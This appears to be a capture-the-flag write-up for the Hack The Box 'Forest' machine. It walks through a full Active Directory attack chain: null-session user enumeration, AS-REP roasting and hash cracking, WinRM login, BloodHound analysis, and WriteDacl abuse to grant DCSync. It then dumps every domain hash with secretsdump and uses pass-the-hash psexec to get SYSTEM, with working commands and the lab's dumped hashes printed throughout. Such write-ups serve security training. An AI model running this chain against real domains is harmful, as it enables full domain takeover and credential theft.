

# nmap

## initial scan

````bash
$ nmap -p- -vv --open -oA nmap/10.10.10.161-Forest 10.10.10.161
Starting Nmap 7.91 ( https://nmap.org ) at 2021-07-07 16:09 SAST
Initiating Ping Scan at 16:09
Scanning 10.10.10.161 [2 ports]
Completed Ping Scan at 16:09, 0.24s elapsed (1 total hosts)
Initiating Parallel DNS resolution of 1 host. at 16:09
Completed Parallel DNS resolution of 1 host. at 16:09, 0.01s elapsed
Initiating Connect Scan at 16:09
Scanning 10.10.10.161 [65535 ports]
Discovered open port 135/tcp on 10.10.10.161
Discovered open port 445/tcp on 10.10.10.161
Discovered open port 139/tcp on 10.10.10.161
Discovered open port 53/tcp on 10.10.10.161
Connect Scan Timing: About 18.56% done; ETC: 16:11 (0:02:16 remaining)
Discovered open port 88/tcp on 10.10.10.161
Discovered open port 593/tcp on 10.10.10.161
Discovered open port 49671/tcp on 10.10.10.161
Discovered open port 49665/tcp on 10.10.10.161
Connect Scan Timing: About 28.69% done; ETC: 16:12 (0:02:32 remaining)
Connect Scan Timing: About 29.20% done; ETC: 16:14 (0:03:41 remaining)
Connect Scan Timing: About 29.73% done; ETC: 16:15 (0:04:46 remaining)
Connect Scan Timing: About 30.26% done; ETC: 16:17 (0:05:48 remaining)
Connect Scan Timing: About 30.71% done; ETC: 16:18 (0:06:48 remaining)
Discovered open port 49676/tcp on 10.10.10.161
Connect Scan Timing: About 30.09% done; ETC: 16:20 (0:08:10 remaining)
Connect Scan Timing: About 30.43% done; ETC: 16:22 (0:09:11 remaining)
Connect Scan Timing: About 30.70% done; ETC: 16:23 (0:10:12 remaining)
Connect Scan Timing: About 31.07% done; ETC: 16:25 (0:11:08 remaining)
Connect Scan Timing: About 31.43% done; ETC: 16:26 (0:12:02 remaining)
Connect Scan Timing: About 31.74% done; ETC: 16:28 (0:12:56 remaining)
Connect Scan Timing: About 32.17% done; ETC: 16:29 (0:13:57 remaining)
Connect Scan Timing: About 37.03% done; ETC: 16:29 (0:12:52 remaining)
Discovered open port 5985/tcp on 10.10.10.161
Discovered open port 49684/tcp on 10.10.10.161
Connect Scan Timing: About 59.17% done; ETC: 16:22 (0:05:34 remaining)
Discovered open port 3268/tcp on 10.10.10.161
Discovered open port 47001/tcp on 10.10.10.161
Discovered open port 49706/tcp on 10.10.10.161
Discovered open port 49666/tcp on 10.10.10.161
Discovered open port 3269/tcp on 10.10.10.161
Discovered open port 389/tcp on 10.10.10.161
Connect Scan Timing: About 79.26% done; ETC: 16:19 (0:02:15 remaining)
Discovered open port 636/tcp on 10.10.10.161
Discovered open port 49677/tcp on 10.10.10.161
Discovered open port 9389/tcp on 10.10.10.161
Discovered open port 49664/tcp on 10.10.10.161
Discovered open port 464/tcp on 10.10.10.161
Completed Connect Scan at 16:18, 564.44s elapsed (65535 total ports)
Nmap scan report for 10.10.10.161
Host is up, received conn-refused (0.24s latency).
Scanned at 2021-07-07 16:09:06 SAST for 565s
Not shown: 64714 closed ports, 799 filtered ports
Reason: 64714 conn-refused and 799 no-responses
Some closed ports may be reported as filtered due to --defeat-rst-ratelimit
PORT      STATE SERVICE          REASON
53/tcp    open  domain           syn-ack
88/tcp    open  kerberos-sec     syn-ack
135/tcp   open  msrpc            syn-ack
139/tcp   open  netbios-ssn      syn-ack
389/tcp   open  ldap             syn-ack
445/tcp   open  microsoft-ds     syn-ack
464/tcp   open  kpasswd5         syn-ack
593/tcp   open  http-rpc-epmap   syn-ack
636/tcp   open  ldapssl          syn-ack
3268/tcp  open  globalcatLDAP    syn-ack
3269/tcp  open  globalcatLDAPssl syn-ack
5985/tcp  open  wsman            syn-ack
9389/tcp  open  adws             syn-ack
47001/tcp open  winrm            syn-ack
49664/tcp open  unknown          syn-ack
49665/tcp open  unknown          syn-ack
49666/tcp open  unknown          syn-ack
49671/tcp open  unknown          syn-ack
49676/tcp open  unknown          syn-ack
49677/tcp open  unknown          syn-ack
49684/tcp open  unknown          syn-ack
49706/tcp open  unknown          syn-ack

Read data files from: /usr/bin/../share/nmap
Nmap done: 1 IP address (1 host up) scanned in 564.75 seconds
````


## second scan

<div class="myprediv" >
nmap -sC -sV -p 53,88,135,139,389,445,464,593,636,3268,3269,5985,9389,47001,49664,49665,49666,49671,49676,49677,49684,49706 -oA nmap/10.10.10.161-Forest-second 10.10.10.161
PORT      STATE SERVICE      VERSION
<span class="myYellow">53/tcp    open</span> domain Simple DNS Plus
<span class="myYellow">88/tcp    open</span> kerberos-sec Microsoft Windows Kerberos (server time: 2021-07-07 15:14:24Z)
<span class="myYellow">135/tcp   open  msrpc </span> Microsoft Windows RPC
<span class="myYellow">139/tcp   open  netbios-ssn</span> Microsoft Windows netbios-ssn
389/tcp   open  ldap Microsoft Windows Active Directory LDAP (Domain: htb.local, Site: Default-First-Site-Name)
<span class="myYellow">445/tcp   open</span>  microsoft-ds Windows Server 2016 Standard 14393 microsoft-ds (workgroup: HTB)
464/tcp   open  kpasswd5?
593/tcp   open  ncacn_http   Microsoft Windows RPC over HTTP 1.0
636/tcp   open  tcpwrapped
3268/tcp  open  ldap Microsoft Windows Active Directory LDAP (Domain: <span class="myTurquoise" style="font-weight:bold;">htb.local</span>, Site: Default-First-Site-Name)
3269/tcp  open  tcpwrapped
<span class="myYellow">5985/tcp  open</span> http Microsoft HTTPAPI httpd 2.0 (SSDP/UPnP)
|_http-server-header: Microsoft-HTTPAPI/2.0
|_http-title: Not Found
9389/tcp  open  mc-nmf       .NET Message Framing
47001/tcp open  http         Microsoft HTTPAPI httpd 2.0 (SSDP/UPnP)
|_http-server-header: Microsoft-HTTPAPI/2.0
|_http-title: Not Found
49664/tcp open  msrpc        Microsoft Windows RPC
49665/tcp open  msrpc        Microsoft Windows RPC
49666/tcp open  msrpc        Microsoft Windows RPC
49671/tcp open  msrpc        Microsoft Windows RPC
49676/tcp open  ncacn_http   Microsoft Windows RPC over HTTP 1.0
49677/tcp open  msrpc        Microsoft Windows RPC
49684/tcp open  msrpc        Microsoft Windows RPC
49706/tcp open  msrpc        Microsoft Windows RPC
Service Info: Host: FOREST; OS: Windows; CPE: cpe:/o:microsoft:windows
<pre>
Host script results:
|_clock-skew: mean: 2h29m58s, deviation: 4h02m30s, median: 9m58s
| smb-os-discovery: 
|   OS: Windows Server 2016 Standard 14393 (Windows Server 2016 Standard 6.3)
|   Computer name: FOREST
|   NetBIOS computer name: FOREST\x00
|   Domain name: htb.local
|   Forest name: htb.local
|   FQDN: FOREST.htb.local
|_  System time: 2021-07-07T08:15:17-07:00
| smb-security-mode: 
|   account_used: \<blank\>
|   authentication_level: user
|   challenge_response: supported
|_  message_signing: required
| smb2-security-mode: 
|   2.02: 
|_    Message signing enabled and required
| smb2-time: 
|   date: 2021-07-07T15:15:20
|_  start_date: 2021-07-06T19:15:28
</pre>
Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 80.49 seconds

</div>

# user

## rpcclient
````bash
rpcclient -U "" -N 10.10.10.161
````


rpcclient allowing logon without password

<HR>

## enumerating users
````bash
rpcenumusers
````


<div class="myprediv">
user:[<span class="myYellow">sebastien</span>] rid:[0x479]
user:[<span class="myYellow">lucinda</span>] rid:[0x47a]
user:[<span class="myYellow">svc-alfresco</span>] rid:[0x47b]
user:[<span class="myYellow">andy</span>] rid:[0x47e]
user:[<span class="myYellow">mark</span>] rid:[0x47f]
user:[<span class="myYellow">santi</span>] rid:[0x480]
</div>


## users

sebastien
lucinda
svc-alfresco
andy
mark
santi

<HR>

## AS-REP Roasting


```
python3 impacket/GetNPUsers.py htb.local/ -usersfile users.txt -format hashcat -outputfile hashes.txt
```


````bash
cat hashes.txt 
$krb5asrep$23$svc-alfresco@HTB.LOCAL:4104ec598c10d98c4ac31c3b85d58e9e$d270f2be4d4f5f6acf581985a9929e34db1488cff5dc2f0773c31ef4f74734e1ef4aa9fe672feeb5b855ed63506b3991853c6b3faf129a67b6daa651ae7081b8dfe57eda8693e6d4682fbdfe342e54a9478072f8ac9b2cf6dc48c8fcbd27dcd385dbe068c8d7c53f224202bc37765abe1f8a58dac77a1bc82c44338c4eed04a6c926f8944a6238fecd527e881da12a2d75d3929d849945978343ee38378b09767d09bb6f95f3231bcbc56a35714cf4a3b57d7eaacc4d43db336bf86e77b9734aeb2fb860f4feae32bfa38149ca9afa6945c4c8da526a5f6c22aab3c7e7c6f625b073c8cd7063
````
	

<HR>

## haschcat

````bash
hashcat -m 18200 -a 0 hashes.txt /usr/share/wordlists/rockyou.txt --force -o result.txt
````


credentials are <span class="myYellow" style="font-weight:bold;">svc-alfresco:s3rvice</span>
	
<HR>
	

## evil-winrm

 if not installed, install evil-winrm using

````bash
sudo gem install evil-winrm
````

login with evil-winrm

````bash
evil-winrm -u svc-alfresco -p s3rvice -i 10.10.10.161
````


	
# root
## data collector


````bash
upload /opt/BloodHound/Collectors/SharpHound.ps1
````

load the SharpHound module

````bash
. .\SharpHound.ps1
````
Invoke the module to start collecting the data

```
Invoke-Bloodhound -CollectionMethod All -domain htb.local -LDAPUser svc-alfresco -LDAPPass s3rvice -Verbose
```

download the generated zip file. The filename will be different depending on day and time.

````bash
download 20210707153450_BloodHound.zip
````


<HR>

## start neo4j

````bash
neo4j start
````


<HR>

## bloodhound
	
after logging into neo4j, start Bloodhound and load the data collected by SharpHound.
	


<HR>

## GenericAll

	
- right-click on <span class="myNeonGreen">*GenericAll*</span> for more information

	

- more information on GenericAll
	

- more information about abusing this right.
- to run the scripts, PowerSploit is required (PowerView.ps1)

### create a user
	
````powershell
net user qdada secure123 /add /domain
````

### add new user to remote management users
	
````powershell
net localgroup "remote management users" qdada /add
````

	
### load PowerSploit

````powershell
. .\PowerView.ps1
````

### add qdada to group EXCHANGE WINDOWS PERMISSIONS
	
````powershell
	
$SecPassword = ConvertTo-SecureString 's3rvice' -AsPlainText -Force
$Cred = New-Object System.Management.Automation.PSCredential('htb.local\svc-alfresco', $SecPassword)

#Then, use Add-DomainGroupMember, optionally specifying $Cred if you are not already running a #process as ACCOUNT OPERATORS@HTB.LOCAL:

Add-DomainGroupMember -Identity 'EXCHANGE WINDOWS PERMISSIONS' -Members 'qdada' -Credential $Cred

#Finally, verify that the user was successfully added to the group with PowerView's Get-#DomainGroupMember:

Get-DomainGroupMember -Identity 'EXCHANGE WINDOWS PERMISSIONS'

#without PowerSploit
#
#net user qdada secure123 /add /domain
#net group "exchange windows permissions" /add qdada
#net group "exchange windows permissions"


````


the same image with a resized window is seen below


<HR>

## WriteDacl


-   right-click on <span class="myNeonGreen">*WriteDacl*</span> for more information


- more information on WriteDacl

	


````powershell
#To abuse WriteDacl to a domain object, you may grant yourself the DcSync privileges.

#You may need to authenticate to the Domain Controller as a member of EXCHANGE WINDOWS #PERMISSIONS@HTB.LOCAL if you are not running a process as a member. To do this in conjunction #with Add-DomainObjectAcl, first create a PSCredential object (these examples comes from the #PowerView help documentation):

$SecPassword = ConvertTo-SecureString 'secure123' -AsPlainText -Force
$Cred = New-Object System.Management.Automation.PSCredential('htb.local\qdada', $SecPassword)

#Then, use Add-DomainObjectAcl, optionally specifying $Cred if you are not already running a #process as EXCHANGE WINDOWS PERMISSIONS@HTB.LOCAL:

#take note of the slight modification of the command as it did not work exactly as stated
Add-DomainObjectAcl -PrincipalIdentity qdada -Credential $Cred -TargetIdentity "DC=htb, DC=local" -Rights DCSync

#Once you have granted yourself this privilege, you may use the mimikatz dcsync function to dcsync #the password of arbitrary principals on the domain
#lsadump::dcsync /domain:htb.local /user:Administrator

#Cleanup can be done using the Remove-DomainObjectAcl function:
Remove-DomainObjectAcl -Credential $Cred -TargetIdentity testlab.local -Rights DCSync
````
## final code ran was
	
````powershell
$SecPassword = ConvertTo-SecureString 'secure123' -AsPlainText -Force
$Cred = New-Object System.Management.Automation.PSCredential('htb.local\qdada', $SecPassword)
Add-DomainObjectAcl -PrincipalIdentity qdada -Credential $Cred -TargetIdentity "DC=htb, DC=local" -Rights DCSync
````
## on kali box

run secretsdump on kali as follows
	
````bash
impacket-secretsdump qdada:secure123@htb.local
````
````bash
impacket-secretsdump qdada:secure123@htb.local
Impacket v0.9.22 - Copyright 2020 SecureAuth Corporation

[-] RemoteOperations failed: DCERPC Runtime Error: code: 0x5 - rpc_s_access_denied 
[*] Dumping Domain Credentials (domain\uid:rid:lmhash:nthash)
[*] Using the DRSUAPI method to get NTDS.DIT secrets
htb.local\Administrator:500:aad3b435b51404eeaad3b435b51404ee:32693b11e6aa90eb43d32c72a07ceea6:::
Guest:501:aad3b435b51404eeaad3b435b51404ee:31d6cfe0d16ae931b73c59d7e0c089c0:::
krbtgt:502:aad3b435b51404eeaad3b435b51404ee:819af826bb148e603acb0f33d17632f8:::
DefaultAccount:503:aad3b435b51404eeaad3b435b51404ee:31d6cfe0d16ae931b73c59d7e0c089c0:::
htb.local\$331000-VK4ADACQNUCA:1123:aad3b435b51404eeaad3b435b51404ee:31d6cfe0d16ae931b73c59d7e0c089c0:::
htb.local\SM_2c8eef0a09b545acb:1124:aad3b435b51404eeaad3b435b51404ee:31d6cfe0d16ae931b73c59d7e0c089c0:::
htb.local\SM_ca8c2ed5bdab4dc9b:1125:aad3b435b51404eeaad3b435b51404ee:31d6cfe0d16ae931b73c59d7e0c089c0:::
htb.local\SM_75a538d3025e4db9a:1126:aad3b435b51404eeaad3b435b51404ee:31d6cfe0d16ae931b73c59d7e0c089c0:::
htb.local\SM_681f53d4942840e18:1127:aad3b435b51404eeaad3b435b51404ee:31d6cfe0d16ae931b73c59d7e0c089c0:::
htb.local\SM_1b41c9286325456bb:1128:aad3b435b51404eeaad3b435b51404ee:31d6cfe0d16ae931b73c59d7e0c089c0:::
htb.local\SM_9b69f1b9d2cc45549:1129:aad3b435b51404eeaad3b435b51404ee:31d6cfe0d16ae931b73c59d7e0c089c0:::
htb.local\SM_7c96b981967141ebb:1130:aad3b435b51404eeaad3b435b51404ee:31d6cfe0d16ae931b73c59d7e0c089c0:::
htb.local\SM_c75ee099d0a64c91b:1131:aad3b435b51404eeaad3b435b51404ee:31d6cfe0d16ae931b73c59d7e0c089c0:::
htb.local\SM_1ffab36a2f5f479cb:1132:aad3b435b51404eeaad3b435b51404ee:31d6cfe0d16ae931b73c59d7e0c089c0:::
htb.local\HealthMailboxc3d7722:1134:aad3b435b51404eeaad3b435b51404ee:4761b9904a3d88c9c9341ed081b4ec6f:::
htb.local\HealthMailboxfc9daad:1135:aad3b435b51404eeaad3b435b51404ee:5e89fd2c745d7de396a0152f0e130f44:::
htb.local\HealthMailboxc0a90c9:1136:aad3b435b51404eeaad3b435b51404ee:3b4ca7bcda9485fa39616888b9d43f05:::
htb.local\HealthMailbox670628e:1137:aad3b435b51404eeaad3b435b51404ee:e364467872c4b4d1aad555a9e62bc88a:::
htb.local\HealthMailbox968e74d:1138:aad3b435b51404eeaad3b435b51404ee:ca4f125b226a0adb0a4b1b39b7cd63a9:::
htb.local\HealthMailbox6ded678:1139:aad3b435b51404eeaad3b435b51404ee:c5b934f77c3424195ed0adfaae47f555:::
htb.local\HealthMailbox83d6781:1140:aad3b435b51404eeaad3b435b51404ee:9e8b2242038d28f141cc47ef932ccdf5:::
htb.local\HealthMailboxfd87238:1141:aad3b435b51404eeaad3b435b51404ee:f2fa616eae0d0546fc43b768f7c9eeff:::
htb.local\HealthMailboxb01ac64:1142:aad3b435b51404eeaad3b435b51404ee:0d17cfde47abc8cc3c58dc2154657203:::
htb.local\HealthMailbox7108a4e:1143:aad3b435b51404eeaad3b435b51404ee:d7baeec71c5108ff181eb9ba9b60c355:::
htb.local\HealthMailbox0659cc1:1144:aad3b435b51404eeaad3b435b51404ee:900a4884e1ed00dd6e36872859c03536:::
htb.local\sebastien:1145:aad3b435b51404eeaad3b435b51404ee:96246d980e3a8ceacbf9069173fa06fc:::
htb.local\lucinda:1146:aad3b435b51404eeaad3b435b51404ee:4c2af4b2cd8a15b1ebd0ef6c58b879c3:::
htb.local\svc-alfresco:1147:aad3b435b51404eeaad3b435b51404ee:9248997e4ef68ca2bb47ae4e6f128668:::
htb.local\andy:1150:aad3b435b51404eeaad3b435b51404ee:29dfccaf39618ff101de5165b19d524b:::
htb.local\mark:1151:aad3b435b51404eeaad3b435b51404ee:9e63ebcb217bf3c6b27056fdcb6150f7:::
htb.local\santi:1152:aad3b435b51404eeaad3b435b51404ee:483d4c70248510d8e0acb6066cd89072:::
qdada:7601:aad3b435b51404eeaad3b435b51404ee:03997d106ee142ea99813632b0ece27b:::
FOREST$:1000:aad3b435b51404eeaad3b435b51404ee:1252b9ad0f98b1e1d192cc75eef72d44:::
EXCH01$:1103:aad3b435b51404eeaad3b435b51404ee:050105bb043f5b8ffc3a9fa99b5ef7c1:::
[*] Kerberos keys grabbed
krbtgt:aes256-cts-hmac-sha1-96:9bf3b92c73e03eb58f698484c38039ab818ed76b4b3a0e1863d27a631f89528b
krbtgt:aes128-cts-hmac-sha1-96:13a5c6b1d30320624570f65b5f755f58
krbtgt:des-cbc-md5:9dd5647a31518ca8
htb.local\HealthMailboxc3d7722:aes256-cts-hmac-sha1-96:258c91eed3f684ee002bcad834950f475b5a3f61b7aa8651c9d79911e16cdbd4
htb.local\HealthMailboxc3d7722:aes128-cts-hmac-sha1-96:47138a74b2f01f1886617cc53185864e
htb.local\HealthMailboxc3d7722:des-cbc-md5:5dea94ef1c15c43e
htb.local\HealthMailboxfc9daad:aes256-cts-hmac-sha1-96:6e4efe11b111e368423cba4aaa053a34a14cbf6a716cb89aab9a966d698618bf
htb.local\HealthMailboxfc9daad:aes128-cts-hmac-sha1-96:9943475a1fc13e33e9b6cb2eb7158bdd
htb.local\HealthMailboxfc9daad:des-cbc-md5:7c8f0b6802e0236e
htb.local\HealthMailboxc0a90c9:aes256-cts-hmac-sha1-96:7ff6b5acb576598fc724a561209c0bf541299bac6044ee214c32345e0435225e
htb.local\HealthMailboxc0a90c9:aes128-cts-hmac-sha1-96:ba4a1a62fc574d76949a8941075c43ed
htb.local\HealthMailboxc0a90c9:des-cbc-md5:0bc8463273fed983
htb.local\HealthMailbox670628e:aes256-cts-hmac-sha1-96:a4c5f690603ff75faae7774a7cc99c0518fb5ad4425eebea19501517db4d7a91
htb.local\HealthMailbox670628e:aes128-cts-hmac-sha1-96:b723447e34a427833c1a321668c9f53f
htb.local\HealthMailbox670628e:des-cbc-md5:9bba8abad9b0d01a
htb.local\HealthMailbox968e74d:aes256-cts-hmac-sha1-96:1ea10e3661b3b4390e57de350043a2fe6a55dbe0902b31d2c194d2ceff76c23c
htb.local\HealthMailbox968e74d:aes128-cts-hmac-sha1-96:ffe29cd2a68333d29b929e32bf18a8c8
htb.local\HealthMailbox968e74d:des-cbc-md5:68d5ae202af71c5d
htb.local\HealthMailbox6ded678:aes256-cts-hmac-sha1-96:d1a475c7c77aa589e156bc3d2d92264a255f904d32ebbd79e0aa68608796ab81
htb.local\HealthMailbox6ded678:aes128-cts-hmac-sha1-96:bbe21bfc470a82c056b23c4807b54cb6
htb.local\HealthMailbox6ded678:des-cbc-md5:cbe9ce9d522c54d5
htb.local\HealthMailbox83d6781:aes256-cts-hmac-sha1-96:d8bcd237595b104a41938cb0cdc77fc729477a69e4318b1bd87d99c38c31b88a
htb.local\HealthMailbox83d6781:aes128-cts-hmac-sha1-96:76dd3c944b08963e84ac29c95fb182b2
htb.local\HealthMailbox83d6781:des-cbc-md5:8f43d073d0e9ec29
htb.local\HealthMailboxfd87238:aes256-cts-hmac-sha1-96:9d05d4ed052c5ac8a4de5b34dc63e1659088eaf8c6b1650214a7445eb22b48e7
htb.local\HealthMailboxfd87238:aes128-cts-hmac-sha1-96:e507932166ad40c035f01193c8279538
htb.local\HealthMailboxfd87238:des-cbc-md5:0bc8abe526753702
htb.local\HealthMailboxb01ac64:aes256-cts-hmac-sha1-96:af4bbcd26c2cdd1c6d0c9357361610b79cdcb1f334573ad63b1e3457ddb7d352
htb.local\HealthMailboxb01ac64:aes128-cts-hmac-sha1-96:8f9484722653f5f6f88b0703ec09074d
htb.local\HealthMailboxb01ac64:des-cbc-md5:97a13b7c7f40f701
htb.local\HealthMailbox7108a4e:aes256-cts-hmac-sha1-96:64aeffda174c5dba9a41d465460e2d90aeb9dd2fa511e96b747e9cf9742c75bd
htb.local\HealthMailbox7108a4e:aes128-cts-hmac-sha1-96:98a0734ba6ef3e6581907151b96e9f36
htb.local\HealthMailbox7108a4e:des-cbc-md5:a7ce0446ce31aefb
htb.local\HealthMailbox0659cc1:aes256-cts-hmac-sha1-96:a5a6e4e0ddbc02485d6c83a4fe4de4738409d6a8f9a5d763d69dcef633cbd40c
htb.local\HealthMailbox0659cc1:aes128-cts-hmac-sha1-96:8e6977e972dfc154f0ea50e2fd52bfa3
htb.local\HealthMailbox0659cc1:des-cbc-md5:e35b497a13628054
htb.local\sebastien:aes256-cts-hmac-sha1-96:fa87efc1dcc0204efb0870cf5af01ddbb00aefed27a1bf80464e77566b543161
htb.local\sebastien:aes128-cts-hmac-sha1-96:18574c6ae9e20c558821179a107c943a
htb.local\sebastien:des-cbc-md5:702a3445e0d65b58
htb.local\lucinda:aes256-cts-hmac-sha1-96:acd2f13c2bf8c8fca7bf036e59c1f1fefb6d087dbb97ff0428ab0972011067d5
htb.local\lucinda:aes128-cts-hmac-sha1-96:fc50c737058b2dcc4311b245ed0b2fad
htb.local\lucinda:des-cbc-md5:a13bb56bd043a2ce
htb.local\svc-alfresco:aes256-cts-hmac-sha1-96:46c50e6cc9376c2c1738d342ed813a7ffc4f42817e2e37d7b5bd426726782f32
htb.local\svc-alfresco:aes128-cts-hmac-sha1-96:e40b14320b9af95742f9799f45f2f2ea
htb.local\svc-alfresco:des-cbc-md5:014ac86d0b98294a
htb.local\andy:aes256-cts-hmac-sha1-96:ca2c2bb033cb703182af74e45a1c7780858bcbff1406a6be2de63b01aa3de94f
htb.local\andy:aes128-cts-hmac-sha1-96:606007308c9987fb10347729ebe18ff6
htb.local\andy:des-cbc-md5:a2ab5eef017fb9da
htb.local\mark:aes256-cts-hmac-sha1-96:9d306f169888c71fa26f692a756b4113bf2f0b6c666a99095aa86f7c607345f6
htb.local\mark:aes128-cts-hmac-sha1-96:a2883fccedb4cf688c4d6f608ddf0b81
htb.local\mark:des-cbc-md5:b5dff1f40b8f3be9
htb.local\santi:aes256-cts-hmac-sha1-96:8a0b0b2a61e9189cd97dd1d9042e80abe274814b5ff2f15878afe46234fb1427
htb.local\santi:aes128-cts-hmac-sha1-96:cbf9c843a3d9b718952898bdcce60c25
htb.local\santi:des-cbc-md5:4075ad528ab9e5fd
qdada:aes256-cts-hmac-sha1-96:95c614e6f8cce50761edb8222e04f07cf351273a66a7b7dcec800e56ac96591f
qdada:aes128-cts-hmac-sha1-96:a6d0df88dfb45a1eb116ea563c9328d5
qdada:des-cbc-md5:67f21980df1c137a
FOREST$:aes256-cts-hmac-sha1-96:ad09609dce4ee727922882fb9cc0f721a511b33ae9de8481e0e49b2c59ce42dd
FOREST$:aes128-cts-hmac-sha1-96:f004244903e4f70e06b318489a229f2a
FOREST$:des-cbc-md5:61a71f945e5d2623
EXCH01$:aes256-cts-hmac-sha1-96:1a87f882a1ab851ce15a5e1f48005de99995f2da482837d49f16806099dd85b6
EXCH01$:aes128-cts-hmac-sha1-96:9ceffb340a70b055304c3cd0583edf4e
EXCH01$:des-cbc-md5:8c45f44c16975129
[*] Cleaning up... 
````


````bash
impacket-psexec -hashes aad3b435b51404eeaad3b435b51404ee:32693b11e6aa90eb43d32c72a07ceea6 Administrator@10.10.10.161 cmd.exe
````
	
````bash
impacket-psexec -hashes aad3b435b51404eeaad3b435b51404ee:32693b11e6aa90eb43d32c72a07ceea6 Administrator@10.10.10.161 cmd.exe
Impacket v0.9.22 - Copyright 2020 SecureAuth Corporation

[*] Requesting shares on 10.10.10.161.....
[*] Found writable share ADMIN$
[*] Uploading file rHebczxf.exe
[*] Opening SVCManager on 10.10.10.161.....
[*] Creating service CAIt on 10.10.10.161.....
[*] Starting service CAIt.....
[!] Press help for extra shell commands
Microsoft Windows [Version 10.0.14393]
(c) 2016 Microsoft Corporation. All rights reserved.

C:\Windows\system32>whoami&&hostname
nt authority\system
FOREST

C:\Windows\system32>ipconfig

Windows IP Configuration


Ethernet adapter Ethernet0:

   Connection-specific DNS Suffix  . : 
   IPv4 Address. . . . . . . . . . . : 10.10.10.161
   Subnet Mask . . . . . . . . . . . : 255.255.255.0
   Default Gateway . . . . . . . . . : 10.10.10.2

Tunnel adapter isatap.{E00B7E21-EE8E-4210-8C23-A108EFC92167}:

   Media State . . . . . . . . . . . : Media disconnected
   Connection-specific DNS Suffix  . : 

C:\Windows\system32>type C:\users\administrator\desktop\root.txt
f048153f202bbb2f82622b04d79129cc
C:\Windows\system32>
````
